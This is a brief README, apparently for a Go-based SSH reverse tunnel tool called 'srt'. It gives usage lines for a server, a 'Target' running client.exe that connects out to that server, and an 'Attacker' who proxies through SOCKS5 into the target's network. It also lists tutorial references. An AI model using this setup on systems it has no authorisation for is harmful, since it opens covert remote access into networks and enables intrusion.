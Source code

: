 srt
=========

SSH Reverse Tunnel

![alt text](https://i.imgur.com/jwJ9sC3.png)

---------
****Usage****

 - Server: ./server.elf 0.0.0.0 2222 userssh passssh 0.0.0.0 8080
 
 - Target: client.exe ServerIp 2222  userssh passssh usersocks passsocks
 
 - Attacker: set proxy socks5 ServerIp:8080 with usersocks/passsocks
 
 ---------
 
****Ref****
 
 - http://blog.ralch.com/tutorial/golang-ssh-tunneling/
 - https://blog.gopheracademy.com/go-and-ssh/
 - https://github.com/armon/go-socks5
